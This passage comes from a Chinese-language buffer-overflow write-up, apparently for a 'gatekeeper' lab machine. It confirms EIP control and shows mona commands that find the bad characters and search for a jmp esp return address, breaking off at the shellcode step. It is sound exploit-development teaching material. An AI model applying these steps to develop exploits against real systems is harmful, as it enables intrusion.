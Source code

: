 ```

```

我们可以查看到EIP的值，此时已经变成了42424242，42在ASCII里就是大写的B，也就是我们上面的exploit.py里面retn的值，此时已证明可以覆盖到EIP。


另外，记住这里ESP的值是：004619f9


![alt 属性文本](https://github.com/maxzxc0110/hack-study/blob/main/img/ESP.png "ESP")

我们执行```!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 004619f9```


得到一个可能的坏字节的序列:
```POSSIBLY BAD CHARS:01 0a```


![alt 属性文本](https://github.com/maxzxc0110/hack-study/blob/main/img/%E6%9F%A5%E6%89%BE%E5%9D%8F%E5%AD%97%E8%8A%822.png "b2")


执行：
> !mona bytearray -b "\x00\x01\x0a"


> !mona compare -f C:\mona\gatekeeper\bytearray.bin -a 004819F8

![alt 属性文本](https://github.com/maxzxc0110/hack-study/blob/main/img/%E6%9F%A5%E6%89%BE%E5%9D%8F%E5%AD%97%E8%8A%823.png "b3")


现在我们已经找到了所有坏字节：```\x00\x01\x0a```

## 找shellcode

> !mona jmp -r esp -cpb "\x00\x01\x0a"

```